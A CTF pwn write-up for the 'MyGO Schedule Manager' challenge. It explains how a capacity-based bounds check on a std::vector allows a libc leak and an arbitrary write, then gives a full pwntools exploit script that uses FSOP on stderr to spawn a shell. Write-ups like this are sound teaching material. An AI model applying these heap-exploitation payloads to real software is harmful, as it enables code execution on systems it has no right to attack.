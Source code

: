 # MyGO Schedule Manager β
> Author: 堇姬Naup

## analyze code

First, you need to login. Just input `MyGO!!!!!` in username and `TomorinIsCute` in password.

And then you will look four function about manipulate schedule.

1 -> add
2 -> edit
3 -> delete
4 -> show

Trace this code.

`add_schedule` need to input a string which you want to emplace_back to schedule (std::vector<std::string>).
It'll check scedule not bigger than 4.

`edit_schedule` it need to two input. `index` and `string` 
It will edit schedule[index] to your input string.
And it will check your input not bigger than vector capacity(It is so strange, but let me later to descript it. It is this challenge core) 

`delete_schedule` is look like previous function.
User need to input index, it will erase vector.begin()+index.
This part check is the same, it check vector capacity.


Last function is show_schedule. It will show your schedule's string content.
And check is vector capacity.

## Some Knowledge
First we need to know `std::vector` and `std::string` structure.
This is std::vector
| offset | description |
|--------|-------------|
| 0x0 | array's first element pointer |
| 0x8 | vector end pointer |
| 0x10 | array's capacity limit pointer  |

Anthor is std::string
| offset | description |
|--------|-------------|
| 0x0    | data's pointer |
| 0x8    | vector size |
| 0x10   | vector capacity |
| 0x18   | unused padding or alignment space |

OK, now you need to know vector capacity.
When vector need to let its capacity more bigger?
The answer is $2^n, n \in \{ 0, 1, 2, 3, \dots \}$
If it need to expand its capacity.
It will free origin chunk which store vector elements structure.
And alloc new chunk.

## analyze bug
We know vector's capacity will be expanded in advanced.
So, when vector elements count is 3.
Its capacity is four.

It will access out of vector's have element part.
So first we alloc 0x500 size std::string, and alloc 0x10 size(When you free 0x500, let your unsorted bin not consolidate to top chunk.)
And free 0x10 and free 0x500.
And you show chunk 0x500, fd and bk's libc address will be show.
We will leak libc (erase just destroy, not go to clear vector's element)
```c
iterator erase(iterator position){
    if(position + 1 != end()){
        copy(position+1,finish,position);
}
    --finish;
    destroy(finish);
    return position;
}
```

And we alloc one chunk, and input it like a fake vector (4 elements).
Fourth element 0x0 change to `You want to write address` (This is pointer point to data), and free this chunk.

Alloc three chunk:
When you alloc third chunk, vector capacity will be expanded to 4 and alloc new chunk store element struct.
In advanced, you have been freed a fake chunk will be catch to use and fourth element have been put fake vector which point to `You want to write address`.

And it check use capacity, so we can access this fake pointer.
So we will get arbitrary write.

We write FSOP on stderr. We will get shell.
This is my script

## script
```python
from pwn import *
from libs.NAUP_pwn_lib import *
import time
from libs.NAUP_filestructure_lib import *
from libs.NAUP_fmt_lib import *

#### This is a CTF pwn templates make by Naup

def s(payload): return r.send(payload)
def sl(payload): return r.sendline(payload)
def sla(after, payload): return r.sendlineafter(after, payload)
def sa(after, payload): return r.sendafter(after, payload)
def rc(num): return r.recv(num)
def rcl(): return r.recvline()
def rcls(num): return r.recvlines(num)
def rcu(payload): return r.recvuntil(payload)
def ita(): return r.interactive()
def cl(): return r.close()
def tsl(): return time.sleep(0.2)

x64_env()

REMOTE_LOCAL=input("local?(y/n):")

if REMOTE_LOCAL=="y":
    r=process('./chal')
    debug_init()
    
else:                                           
    REMOTE_INFO=split_nc("nc naup.com 2000")

    REMOTE_IP=REMOTE_INFO[0]
    REMOTE_PORT=int(REMOTE_INFO[1])

    r=remote(REMOTE_IP,REMOTE_PORT)

### attach
if input('attach?(y/n)') == 'y':
    p(r)

### heap IO
def login():
    sla(b"Username > ", b"MyGO!!!!!")
    sla(b"Password > ", b"TomorinIsCute")

def add(item):
    sla(b"< MyGO @ ScheduleManager $ > ", b"1")
    sla(b"Input item > ", item)

def edit(idx, item):
    sla(b"< MyGO @ ScheduleManager $ > ", b"2")
    sla(b"Index > ", str(idx).encode())
    sla(b"Edit item > ", item)

def delete(idx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"3")
    sla(b"Index > ", str(idx).encode())

def show(idx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"4")
    sla(b"Index > ", str(idx).encode())

def exitf():
    sla(b"< MyGO @ ScheduleManager $ > ", b"5")

### exploit

login()
add(b"a" * 0x500)
add(b"b" * 0x10)
delete(1)
delete(0)

show(0)
r.recvuntil(b'] is ')
leaklibc = u64(r.recvline().strip()[:6].ljust(8,b'\x00'))
libcbase = leaklibc - 0x21ace0

IO_STDERR = libcbase + 0x21b6a0
libc_system = libcbase + 0x50d70 

payload1  = p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(IO_STDERR) + p64(0x1d0) + p64(0x1d0) + p64(0)

add(payload1)
delete(0)

add(b'Tomorin')
add(b'Soyorin')
add(b'Rana')

payload2 =  p32(0xfbad0101) + b";sh\x00" + b'\x00' * (0x50)
payload2 += p64(libc_system) + b'\x00' * (0x28)
payload2 += p64(IO_STDERR - 0x10) + b'\x00' * (0x10)
payload2 += p64(IO_STDERR - 0x10) + b'\x00' * 0x18
payload2 += p32(1) + b'\x00' * (0xc)
payload2 += p64(IO_STDERR - 0x10) + p64(libcbase + 0x217078) 

edit(3, payload2)
exitf()


NAUPINFO("LEAKLIBC", hex(leaklibc))
NAUPINFO("LIBCBASE", hex(libcbase))
NAUPINFO('STD ERROR', hex(IO_STDERR))
### interactive
ita()
```






